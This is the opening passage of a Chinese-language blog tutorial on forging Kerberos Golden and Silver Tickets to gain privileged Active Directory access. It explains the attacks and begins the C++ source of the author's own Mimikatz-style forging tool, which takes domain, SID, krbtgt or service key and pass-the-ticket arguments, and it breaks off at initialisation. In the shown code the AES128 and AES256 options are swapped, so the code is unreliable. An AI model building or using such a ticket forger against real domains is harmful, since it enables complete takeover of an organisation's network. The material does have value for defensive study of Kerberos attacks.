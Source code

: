 # How to Forge a Kerberos Ticket by Yourself

[toc]

# TL;DR

票据伪造攻击是指攻击者通过伪造 Kerberos 票据来获取未经授权的访问权限。在这种攻击中，最常见的是伪造黄金票据（Golden Ticket）或白银票据（Silver Ticket）。

黄金票据攻击是一种高级的攻击技术，攻击者获取了域控制器的域控制器账户 Krbtgt 的 Long-term Key（长期密钥，一般是哈希值），可以使用此密钥伪造任意特权账户的 Ticket Granting Ticket（TGT），并为该 TGT 插入任意的特权属性证书（Privilege Attribute Certificate Data Structure，PAC）。黄金票证使攻击者能够为 Active Directory 中的任何帐户生成身份验证材料，并完全获取的域内访问权限。

使用黄金票证，攻击者仍需要与密钥分发中心（KDC）交互才能获得 TGS。而白银票据就是通过已获取的应用程序服务器的 Long-term Key，攻击者可以绕过 KDC 直接伪造 TGS 票据。伪造后的白银票据可以用来访问特定服务器上的服务或资源。

在过去一段时间中，我一直试图探索 Mimikatz 这款经典工具的内部实现，我主要围绕 Sekurlsa、Lsadump 和 Kerberos 这几个模块开始研究。这个过程需要反汇编以及调试，并且想达到 Mimikatz 的高度是非常困难的。但是，如果我们只是想实现 Mimikatz 的某些功能，或者基于其源代码构建自己的工具，那么这个过程非常值得尝试。

在本文中，我将通过自己构建的工具，探讨伪造 Kerberos 票据的主要细节，这同时包括 Golden Ticket 和 Silver Ticket，因为它们之间是相互关联的。我在自己构建的工具时，再次阅读了 “[*[RFC4120] The Kerberos Network Authentication Service (V5)*](https://www.ietf.org/rfc/rfc4120.txt)” 文档并参考了 Mimikatz 项目的源代码，使我对 Kerberos 协议的理解更加深入。在阅读源码时，我能够感受到 Mimikatz 项目的开发人员在其中投入了大量精力，因为其中涉及到许多未公开的结构。这里要感谢 Benjamin Delpy（[@gentilkiwi](https://twitter.com/gentilkiwi)） 以及 Vincent Le Toux（[@mysmartlogon](https://twitter.com/mysmartlogon)） 的杰出工作和辛苦付出。

# Implemented By C/C++

## Main Function

主函数可以通过 `GetArgsByName()` 函数从命令行获取 `user`、`domain`、`service`、`target`、`sid` 以及 `rc4` 等主要参数，用于后续伪造票据，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
	LPCWSTR lpUser = NULL, lpDomain = NULL, lpService = NULL, lpTarget = NULL, lpKey = NULL, lpSid = NULL;
	BOOL isPtt = GetArgsByName(argc, argv, L"ptt", NULL, NULL);
	LONG dwKeyType = KERB_ETYPE_RC4_HMAC_NT;

	GetArgsByName(argc, argv, L"user", &lpUser, NULL);
	GetArgsByName(argc, argv, L"domain", &lpDomain, NULL);
	GetArgsByName(argc, argv, L"service", &lpService, NULL);
	GetArgsByName(argc, argv, L"target", &lpTarget, NULL);
	GetArgsByName(argc, argv, L"sid", &lpSid, NULL);

	if (GetArgsByName(argc, argv, L"rc4", &lpKey, NULL) || GetArgsByName(argc, argv, L"krbtgt", &lpKey, NULL))
		dwKeyType = KERB_ETYPE_RC4_HMAC_NT;
	if (GetArgsByName(argc, argv, L"des", &lpKey, NULL))
		dwKeyType = KERB_ETYPE_DES_CBC_MD5;
	if (GetArgsByName(argc, argv, L"aes128", &lpKey, NULL))
		dwKeyType = KERB_ETYPE_AES256_CTS_HMAC_SHA1_96;
	if(GetArgsByName(argc, argv, L"aes256", &lpKey, NULL))
		dwKeyType = KERB_ETYPE_AES128_CTS_HMAC_SHA1_96;
	GetArgsByName(argc, argv, L"rc4", &lpKey, NULL);
	
    // Do some initialization of the Kerberos authentication package
	if (!KerberosInit())
	{
		wprintf(L"[-] Failed to start kerberos initialization.\n");
		return -1;
	}

```